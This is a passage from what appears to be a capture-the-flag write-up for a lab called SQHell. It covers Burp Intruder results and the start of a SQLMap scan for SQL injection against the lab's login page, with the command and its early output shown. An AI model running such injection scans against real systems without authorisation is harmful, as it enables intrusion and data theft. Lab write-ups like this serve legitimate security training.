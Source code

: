 
Click the Start Attack button and wait for burp to try everything from your list. Looking at the results you'll see a few lines with a smaller length to the others. If you switch to the response tab you can see these are the responses containing our flag:

![sqhell-burp-results](../assets/images/2021-06-09-22-08-44.png)

## Flag 1 - In-Band/Error Based - SQLMap Method

The last method to look at is arguably the easiest. Once you know how to use SQLMap it makes the process of discovery and enumeration much easier. If we pretend we don't know the login page is vulnerable then let's follow the process we could use to exploit the page. [This](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap) is a useful post on using SQLMap for SQLi.

First we run an initial scan to see what SQLMap can discover about the database behind the logon page:

```text
┌──(root💀kali)-[/home/kali/sqhell]
└─# sqlmap -u "http://sqhell.thm/login" --data "username=admin&password=admin"
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:54:26 /2021-06-08/
[22:54:26] [INFO] testing connection to the target URL
[22:54:26] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:54:26] [INFO] testing if the target URL content is stable
[22:54:27] [INFO] target URL content is stable
[22:54:27] [INFO] testing if POST parameter 'username' is dynamic
[22:54:27] [WARNING] POST parameter 'username' does not appear to be dynamic
[22:54:27] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[22:54:27] [INFO] testing for SQL injection on POST parameter 'username'
```